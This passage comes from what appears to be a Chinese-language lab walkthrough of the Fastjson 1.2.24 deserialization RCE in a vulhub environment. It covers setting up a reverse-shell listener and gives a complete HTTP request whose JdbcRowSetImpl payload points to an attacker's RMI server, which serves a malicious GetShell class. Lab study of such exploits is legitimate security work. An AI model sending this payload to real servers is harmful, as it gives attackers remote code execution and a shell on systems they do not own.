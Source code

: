     ​![image](assets/image-20240922180349-k0anan1.png)​
4. ##### 反弹shell端口监听

    此处监听的主机和端口要和   创建恶意类 GetShell.java 中所写的一直。

    ​![image](assets/image-20240922181424-uwibv6s.png)​

    <span data-type="text" style="color: var(--b3-font-color9);">坑：shell可以反弹了这里好像不容易看出，建议输入shell看能不能出来。</span>
5. ##### Burpsuite抓包请求

    <span data-type="text" style="color: var(--b3-font-color9);">坑：请求包建议复制粘贴全换，然后改ip。payload来源</span>：[https://vulhub.org/#/environments/fastjson/1.2.24-rce/](https://vulhub.org/#/environments/fastjson/1.2.24-rce/)   `rmi://111.67.196.133:9000/GetShell1`​为启动了RMI服务的主机和端口，GetShell 为恶意类名。前后要一致。

    ```python
    POST / HTTP/1.1
    Host: 47.113.187.190:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 164

    {
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"rmi://111.67.196.133:9000/GetShell1",
            "autoCommit":true
        }
    }
    ```

    发送后，RMI服务器响应。

    ​![image](assets/image-20240922184248-t5p3fq2.png)​
